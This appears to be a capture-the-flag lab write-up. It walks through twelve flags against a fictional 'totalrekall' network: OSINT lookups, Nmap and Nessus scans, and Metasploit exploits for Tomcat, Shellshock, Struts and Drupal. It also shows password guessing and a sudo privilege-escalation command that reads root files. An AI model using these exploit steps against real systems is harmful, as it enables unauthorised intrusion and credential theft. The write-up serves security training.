








Flag 1: h8s692hskasd
Location: https://centralops.net/co/DomainDossier.aspx
Vulnerability: Open source exposed data
Method/Payload to Exploit: On the Domain Dossier webpage, view the WHOIS data for totalrekall.xyz. The address will show the flag:

Registrant Street: h8s692hskasd Flag1

Flag 2: 7sk67cjsdbs

Method/Payload to Exploit:
nslookup -type=txt totalrekall.xyz

Flag 3: s7euwehd

Location: crt.sh

Vulnerability: Open source exposed data

Method/Payload to Exploit: On crt.sh, search for totalrekall.xyz to view the flag:

s7euwehd.totalrekall.xyz

Flag 4: 5

Location: Scan results

Method/Payload to Exploit: Run an Nmap scan for the network (nmap 192.168.13.0/24) to determine that there are 5 hosts excluding the host scanning from.

Flag 5: 192.168.13.13

Location: Scan results

Method/Payload to Exploit: Run an aggressive Nmap scan: nmap -A 192.168.13.0/24

Analyze the results to see that the host that runs Drupal is 192.168.13.13

Flag 6: 97610

Location: Nessus scan results

Method/Payload to Exploit:

Run a Nessus scan for 192.168.13.12
One critical vulnerability will appear for Apache Struts.
Click on this critical vulnerability. The id 97610 will display on the top right of this page.

Flag 7: 8ks6sbhss

Location/Host: 192.168.13.10

Vulnerability: Apache Tomcat Remote Code Execution Vulnerability (CVE-2017-12617)

Method/Payload to Exploit:

Run MSFconsole.
Search for exploits that have Tomcat and JSP.
Use the exploit multi/http/tomcat_jsp_upload_bypass, and set the option for the RHOST to 192.168.13.10.
After successfully getting a Meterpreter shell, enter "SHELL" to get to the command line.
Run the following to get the flag:  / cat /root/.flag7.txt

Flag 8: 9dnx5shdf5

Location: 192.168.13.11

Vulnerability: Shellshock

Method/Payload to Exploit:

Run MSFconsole, and search exploits that have Shellshock.
Run MSF (exploit/multi/http/apache_mod_cgi_bash_env_exec) and set the following options:

target URI(The vulnerable webpage): /cgi-bin/shockme.cgi
RHOST: 192.168.13.11

To get the flag, run the following from a shell on the exploited machine: cat /etc/sudoers

Flag 9: wudks8f7sd

Location: 192.168.13.11

Method/Payload to Exploit: On the same machine as Flag 8, run cat /etc/passwd

Flag 10: wjasdufsdkg

Location: 192.168.13.12

Vulnerability: Struts - CVE-2017-5638

Method/Payload to Exploit:  Determine via the Nessus scan that this host is vulnerable to Struts.

After connecting to MSFconsole, search for Struts exploits.
Use the following exploit to get a Meterpreter shell: multi/http/struts2_content_type_ognl.

Set the RHOSTS to 192.168.13.12

You may have to manually connect to the session to get the meterpreter shell with: sessions -i <session number>

Use Meterpreter to download the following file to your Kali machine: /root/flagisinThisfile.7z

From your Kali machine, unzip the file with the following command: 7z x flagisinThisfile.7z

Use cat with the flag file to view the flag.

Flag 11: www-data

Location: 192.168.13.13

Vulnerability: Drupal - CVE-2019-6340

Method/Payload to Exploit:

After connecting to MSFconsole, search for Drupal exploits.
Use the following exploit to get a Meterpreter shell MSF: unix/webapp/drupal_restws_unserialize

Set RHOSTS to 192.168.13.13

After getting the Meterpreter shell, run getuid to get the username.

Flag 12: d7sdfksdf384

Location: 192.168.13.14

Vulnerability: CVE-2019-14287

Method/Payload to Exploit:

When viewing the WHOIS data from Flag 1, notice that the name is: sshuser Alice

SSH into the server: ssh alice@192.168.13.14

Guess that the password is: alice

To conduct the privilege escalation exploit and obtain the flag, run the following:

sudo -u#-1 cat /root/flag12.txt

